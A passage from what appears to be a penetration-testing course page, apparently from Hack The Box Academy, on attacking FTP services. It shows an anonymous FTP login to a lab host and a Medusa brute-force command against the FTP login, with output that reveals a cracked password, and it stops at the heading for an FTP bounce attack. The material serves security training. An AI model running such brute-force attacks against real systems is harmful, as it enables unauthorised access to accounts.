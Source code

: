 Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp&gt; ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0               9 Aug 12 16:51 test.txt
226 Directory send OK.
</code></pre>
<p>Once we get access to an FTP server with anonymous credentials, we can start searching for interesting information. We can use the commands <code>ls</code> and <code>cd</code> to move around directories like in Linux. To download a single file, we use <code>get</code>, and to download multiple files, we can use <code>mget</code>. For upload operations, we can use <code>put</code> for a simple file or <code>mput</code> for multiple files. We can use <code>help</code> in the FTP client session for more information.</p>
<p>In the <a href="https://academy.hackthebox.com/course/preview/footprinting">Footprinting</a> module, we cover detailed information about possible misconfigurations of such services. For example, many different settings can be applied to an FTP server, and some of them lead to different options that could cause possible attacks against that service. However, this module will focus on specific attacks rather than finding individual misconfigurations.</p>
<hr/>
<h2>Protocol Specifics Attacks</h2>
<p>Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.</p>
<h4>Brute Forcing</h4>
<p>If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, <a href="https://github.com/jmk-foofus/medusa">Medusa</a>. With <code>Medusa</code>, we can use the option <code>-u</code> to specify a single user to target, or you can use the option <code>-U</code> to provide a file with a list of usernames. The option <code>-P</code> is for a file containing a list of passwords. We can use the option <code>-M</code> and the protocol we are targeting (FTP) and the option <code>-h</code> for the target hostname or IP address.</p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Although we may find services vulnerable to brute force, most applications today prevent these types of attacks. A more effective method is Password Spraying.</p>
</div>
</div>
<h4>Brute Forcing with Medusa</h4>
<pre><code class="language-shell-session">[!bash!]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks &lt;<a class="__cf_email__" data-cfemail="72181f1932141d1d1407015c1c1706" href="/cdn-cgi/l/email-protection">[email protected]</a>&gt;                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: fiona (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: fiona Password: family [SUCCESS]
</code></pre>
<h4>FTP Bounce Attack</h4>